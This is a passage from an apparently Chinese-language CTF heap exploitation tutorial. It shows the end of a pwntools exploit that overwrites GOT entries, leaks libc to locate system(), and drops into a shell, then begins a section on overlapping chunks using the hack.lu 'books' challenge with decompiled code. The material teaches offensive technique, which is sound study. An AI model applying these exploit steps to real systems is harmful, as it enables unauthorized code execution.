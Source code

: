```
    payload += p32(4)
    payload += p32(4)
    payload += p32(4)
    payload += (content_addr - content_length - len(payload)) * '\x00'
    payload += p32(free_got)  # id0
    payload += p32(read_got)  # id1
    payload += p32(atoi_got)  # id2
    new('168', payload)

#   overwrite free_got with printf_plt
    edit(0, p32(printf_plt))

#   '4.Delete' to printf libc to get system_addr
    p.recvuntil('>>\n')
    p.sendline('4')
    p.recvuntil('id:\n')
    p.sendline(str(1))
    read_addr = u32(p.recv(4))
    print 'read_addr => ', read_addr

#   modify atoi to system
    libc.address = read_addr - libc.symbols['read']
    system_addr = libc.symbols['system']
    payload2 = p32(system_addr)
    edit(2, payload2)

#   getshell
    p.recvuntil('>>\n')
    p.sendline('/bin/sh\n')
    p.interactive()

if __name__ == '__main__':
    main()
```

## 0x09 overlapping chunks

除了how2heap上演示的extend freed chunks，参考了这篇[文章](http://blog.dazzlepppp.cn/2016/10/15/Producing-Overlapping-Chunks/)后面的内容。

堆块重叠指两块不同的堆块存在重叠部分，以至于我们写任意一块时也会覆写到另一块堆块中。
how2heap给出的演示程序中的意思是，当我们修改了一个已经被free了的chunk的size时，我们再次分配就可以得到一个修改后size的堆块，然后就可以构成堆块重叠，修改当前堆块将会修改到后一个堆块。

查阅资料的过程中发现还可以在free之前修改size的大小，但是实际测试会发现在free的时候会崩溃，暂时没有找到原因。

以how2heap例题2015hack.lu的books为例。

存在明显的堆溢出，程序逻辑如下
```
signed __int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  signed __int64 result; // rax@4
  __int64 v4; // rcx@16
  signed int v5; // [sp+4h] [bp-BCh]@5
  void *final_str; // [sp+8h] [bp-B8h]@0
  void *order1; // [sp+18h] [bp-A8h]@1
  void *order2; // [sp+20h] [bp-A0h]@1
  char *dest; // [sp+28h] [bp-98h]@1
  char s; // [sp+30h] [bp-90h]@6
  __int64 v11; // [sp+B8h] [bp-8h]@1

  v11 = *MK_FP(__FS__, 40LL);
  order1 = malloc(0x80uLL);
  order2 = malloc(0x80uLL);
```